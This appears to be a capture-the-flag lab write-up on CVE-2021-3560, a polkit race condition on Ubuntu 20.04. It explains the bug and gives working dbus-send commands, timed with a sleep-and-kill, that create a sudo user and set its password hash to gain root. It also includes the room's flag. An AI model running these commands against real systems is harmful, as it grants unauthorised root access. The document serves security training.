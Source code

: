 ```yaml
---
sticker: emoji//1fa81
---
```

## _**Overview**_  
---
In early 2021 a researcher named [Kevin Backhouse](https://github.blog/author/kevinbackhouse/) discovered a seven year old privilege escalation vulnerability (since designated CVE-2021-3560) in the Linux polkit utility. Fortunately, different distributions of Linux (and even different versions of the same distributions) use different versions of the software, meaning that only some are vulnerable.

Specifically, the following mainstream distributions, amongst others, were vulnerable:

- Red Hat Enterprise Linux 8
- Fedora 21 (or later)
- Debian Testing ("Bullseye")
- Ubuntu 20.04 LTS ("Focal Fossa")  

All should now have released patched versions of their respective polkit packages, however, if you encounter one of these distributions then it may still be vulnerable if it hasn't been updated for a while.

For this room we will be focusing specifically on Ubuntu 20.04. Canonical released a patch for their version of polkit (`policykit-1`), which has version number `0.105-26ubuntu1.1`. The last vulnerable version available in the apt repositories for Focal Fossa is `0.105-26ubuntu1`, so, if you see this, you may be in luck!

We can use `apt list --installed | grep policykit-1` to check the installed version of polkit:  

![Image demonstrating the installed vulnerable version of polkit](https://assets.muirlandoracle.co.uk/thm/rooms/polkit/3e537ed069ff.png)

The original description of this vulnerability can be found in a post written by Kevin Backhouse, [here](https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/).  

---

### _**What is Polkit?**_  
----
The logical question to be asking right now is: "What is polkit?"

Polkit is part of the Linux authorization system. In effect, when you try to perform an action which requires a higher level of privileges, the policy toolkit can be used to determine whether you have the requisite permissions. It is integrated with systemd and is much more configurable than the traditional sudo system. Indeed, it is sometimes referred to as the "sudo of systemd".

When interacting with polkit we can use `pkexec`, instead of `sudo`. As an example, attempting to run the `useradd` command through `pkexec` in a GUI session results in a pop-up asking for credentials:  
`pkexec useradd test1234`  
![Demonstrating the polkit GUI authentication dialogue](https://assets.muirlandoracle.co.uk/thm/rooms/polkit/3ceb61a94882.png)  

In a CLI session, we get a text-based prompt instead:  
![Demonstrating the polkit CLI authentication dialogue](https://assets.muirlandoracle.co.uk/thm/rooms/polkit/b42accbd7f01.png)  

To summarize, the policy toolkit can be thought of as a fine-grained alternative to the simpler sudo system.

---

### _**How is Polkit vulnerable?**_  
---
The next logical question is of course: "How can we exploit polkit"?

The short answer is: by manually sending dbus messages to the dbus-daemon (effectively an API to allow different processes the ability to communicate with each other), then killing the request before it has been fully processed, we can trick polkit into authorizing the command. If you are not familiar with daemons, they are effectively background services running on Linux. The dbus-daemon is a program running in the background which brokers messages between applications.  

For the sake of keeping this room relatively light, we won't go too deep into the specifics behind this (although reading the [full article on the vulnerability](https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/#about) is highly recommended). Effectively, the vulnerability can be boiled down to these steps:

```ad-summary
1. The attacker manually sends a dbus message to the accounts-daemon requesting the creation of a new account with sudo permissions (or latterly, a password to be set for the new user). This message gets given a unique ID by the dbus-daemon.  
2. The attacker kills the message after polkit receives it, but before polkit has a chance to process the message. This effectively destroys the unique message ID.
3. Polkit asks the dbus-daemon for the user ID of the user who sent the message, referencing the (now deleted) message ID.
4. The dbus-daemon can't find the message ID because we killed it in step two. It handles the error by responding with an error code.
5. Polkit mishandles the error and substitutes in 0 for the user ID -- i.e. the root account of the machine.  
6. Thinking that the root user requested the action, polkit allows the request to go through unchallenged.
```

In short, by destroying the message ID before the `dbus-daemon` has a chance to give polkit the correct ID, we exploit the poor error-handling in polkit to trick the utility into thinking that the request was made by the all-powerful root user.  

If this doesn't make sense now, hopefully it will after you've had a chance to perform the exploit yourself!


## Exploitation Process
----

We've seen the theory, now let's see it in action!

Let's try to add a new user called `attacker`, with sudo permissions, and a password of `Expl01ted`. Just read this information for now -- you will have time to try it in the next task!  

First, let's look at the dbus messages we'll need to send:

- `dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1`

This command will manually send a dbus message to the accounts daemon, printing the response and creating a new user called attacker (`string:attacker`) with a description of "Pentester Account" (`string:"Pentester Account"`) and membership of the sudo group set to true (referenced by the`int32:1` flag).

Our second dbus message will set a password for the new account:

- `dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/UserUSER_ID org.freedesktop.Accounts.User.SetPassword string:'PASSWORD_HASH' string:'Ask the pentester'`  



This once again sends a dbus message to the accounts daemon, requesting a password change for the user with an ID which we specify (shown in red), a password hash which we need to generate manually, and a hint ("Ask the pentester")

---

As this is effectively a race condition, we first need to determine how long our command will take to run. Let's try this with the first dbus message:  

`time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1`  

![](https://assets.muirlandoracle.co.uk/thm/rooms/polkit/fe8af4395935.png)  

This takes 0.011 seconds, or 11 milliseconds. This number will be slightly different each time you run the command; however, on the provided machine it should always be _around_ this number.

_**Note:** For the first five minutes or so of deployment the machine is still booting things in the background, so don't be alarmed if the time you get is a lot longer to begin with -- just keep running the command periodically until it gives you a time in a similar region to the results above._

We need to kill the command approximately halfway through execution. Five milliseconds usually works fairly well on the provided machine; however, be aware that this is not an exact thing. You may need to change the sleep time, or run the command several times before it works. That said, once you find a time that works, it should work consistently. If you are struggling to get a working time, putting the command inside a bash for loop and quickly running through a range of times tends to work fairly well.  

Let's try this. We need to send the dbus message, then kill it about halfway through:  

`dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1 & sleep 0.005s; kill $!`

![](https://assets.muirlandoracle.co.uk/thm/rooms/polkit/b1dba51148aa.png)  

To explain the above command, we sent the dbus message in a background job (using the ampersand to background the command). We then told it to sleep for 5 milliseconds (`sleep 0.005s`), then kill the previous process (`$!`). This successfully created the new user, adding them into the sudo group.  
We should note down at this point that the user ID of the new user in this instance is 1000.

Now all we need to do is give the user a password and we should be good to go!

---

We need a password hash here, so let's generate a Sha512Crypt hash for our chosen password (`Expl01ted`):  

`openssl passwd -6 Expl01ted`  

![](https://assets.muirlandoracle.co.uk/thm/rooms/polkit/1316626c8114.png)  

Using openssl, we generate a password of type 6 (SHA512-crypt) and our plaintext password (`Expl01ted`).

Now let's finish this! 5 milliseconds worked last time, so it should work here too:  

`dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1000 org.freedesktop.Accounts.User.SetPassword string:'$6$TRiYeJLXw8mLuoxS$UKtnjBa837v4gk8RsQL2qrxj.0P8c9kteeTnN.B3KeeeiWVIjyH17j6sLzmcSHn5HTZLGaaUDMC4MXCjIupp8.' string:'Ask the pentester' & sleep 0.005s; kill $!`

![](https://assets.muirlandoracle.co.uk/thm/rooms/polkit/12e11c378d8d.png)

With a hop, su, and a `sudo -s`, we have root!


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250107154644.png)

We have root flag, we must submit it to the flag system and we will get our normal flag:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250107154738.png)

So, our flag would be: `THM{N2I0MTgzZTE4ZWQ0OGY0NjdiNTQ0NTZi}`